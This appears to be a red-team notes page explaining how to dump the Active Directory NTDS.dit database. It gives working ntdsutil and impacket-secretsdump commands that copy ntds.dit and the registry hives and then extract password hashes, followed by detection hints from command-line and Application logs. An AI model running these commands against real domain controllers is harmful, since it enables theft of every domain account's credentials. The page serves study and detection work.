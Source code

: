 ```yaml
---
description: >-
  Dumping and enumerating NTDS.dit - a file that contains information about
  Active Directory users (hashes!).
---
```


# NTDS - Domain Controller

## Execution

Dumping the required files using a native windows binary ntdsutil.exe to c:\temp:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We can see that the ntds.dit and SYSTEM as well as SECURITY registry hives are being dumped to c:\temp:

![](../../.gitbook/assets/ntdsutil-attacker.png)

We can then dump password hashes:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```bash
root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/ntds-hashdump%20%281%29.png)

## Observations

On the victim machine, no susprises:

![](../../.gitbook/assets/ntdsutil-procexp.png)

Monitoring commandline arguments is as usual a good idea as it can reveal attempts to dump ntds.dit:

![](../../.gitbook/assets/ntdsutil-cmdline.png)

Additionally, there are multiple Application logs that can indicate some activity around the ntds.dit which you may be interested in investigating further:

![](../../.gitbook/assets/ntds-appllication-log.png)

{% embed url="https://adsecurity.org/?p=2362" %}

{% embed url="https://www.trustwave.com/Resources/SpiderLabs-Blog/Tutorial-for-NTDS-goodness-\(VSSADMIN,-WMIS,-NTDS-dit,-SYSTEM\)/" %}



